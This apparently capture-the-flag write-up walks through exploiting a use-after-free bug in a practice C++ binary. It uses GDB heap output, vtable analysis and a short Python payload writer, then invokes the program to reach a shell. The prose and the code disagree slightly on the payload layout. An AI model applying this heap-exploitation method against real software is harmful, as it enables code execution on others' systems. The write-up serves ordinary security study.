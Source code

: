 ## Use After Free

### Analysis

The uaf.cpp has a simple switch which creates 2 objects - these objects call methods from vtable
It also reads a file of our choice and allocates that data. This program also gives us a control of which function we want to call first via switch case.

```Cpp
switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
                ```

`give_shell` method is the one, we need to call instead of introduce.

```Cpp


class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
```


Using `GEF` (GDB Enhanced Features) we can analyse binary. After disassembling main function, we can find that before creation of object, a new heap chunk is created.
 
 ```bash
   0x0000000000400f00 <+60>:    call   0x400d90 <operator new(unsigned long)@plt>
   0x0000000000400f05 <+65>:    mov    rbx,rax
   0x0000000000400f08 <+68>:    mov    edx,0x19
   0x0000000000400f0d <+73>:    mov    rsi,r12
   0x0000000000400f10 <+76>:    mov    rdi,rbx
   0x0000000000400f13 <+79>:    call   0x401264 <Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)> 
```

If we set a breakpoint after calling `Man()` constructor, we can use `heap chunks` to check them.

```bash
Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006152e0     70 15 40 00 00 00 00 00 19 00 00 00 00 00 00 00    p.@.............]
```
This tells us, that we have created a heap chunk on address `0x6152e0`, with size `0x20` (32, size passed to `new()` was 18 but due to 8 or 16 byte alingment (based on system) it grows to 32)

We can examine the chunk using `x/xg 0x6152e0` and see the address to vtable. 

```bash
gef➤  x/4xg 0x0000000000401570
0x401570 <vtable for Man+16>:   0x000000000040117a      0x00000000004012d2
0x401580 <vtable for Human>:    0x0000000000000000      0x00000000004015f0
```

The 2 addresses in vtable are for methods `give_shell()` and `introduce()`, we can examine them to confirm it.

```bash
gef➤  x/xg 0x000000000040117a
0x40117a <Human::give_shell()>: 0x10ec8348e5894855
```

After using program with third option (delete), we can examine chunk once again and see, that vtable address is erased, but the vtable itself still contains addresses to the virtual functions.
We can also use `heap bins` to see freed chunks and their sizes.

```bash
gef➤  heap bins
──────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x615330, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x615300, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152b0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

### Exploit

If the freed chunks are the same size as the new data we want to allocate, our heap manager will reuse those old heap chunks. Using this behavior, we can use option `2` to allocate a `data` array with a size of `0x18` (24 bytes, the same size as our previous data). This allocation will overwrite the `Man` and `Woman` chunks. After this, we can use option `1` to call the `introduce()` method; however, due to the overwritten vtable, it will incorrectly call `give_shell()` instead.

If we create a file containing 24 characters and use it as an argument file for our program, we can see that `heap chunks` are reused by using options `3` and then `2`. This shows that our heap chunks were reused.

Additionally, we need to reuse the `Woman` chunk to prevent our program from segfaulting. To achieve this, we simply need to use option `2` twice, allowing us to allocate two objects.

The last piece of the puzzle is understanding how `m->introduce()` works. It first accesses the vtable address, which points to two addresses, and then calls `(*vtable) + 8`. To call `give_shell()` instead of `introduce()`, we set `vtable_address` to `vtable_address - 8`, which is `0x0000000000401568`.

This python code will write our exploit, that has 16 characters followed by address of our function address.

```Python
with open("./tmp", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00\x00' + 16* b'Y' )
```

After running this script, we can call
```bash
./uaf 24 tmp
```
and then use options `3`, `2`, `2`, `1` to access shell.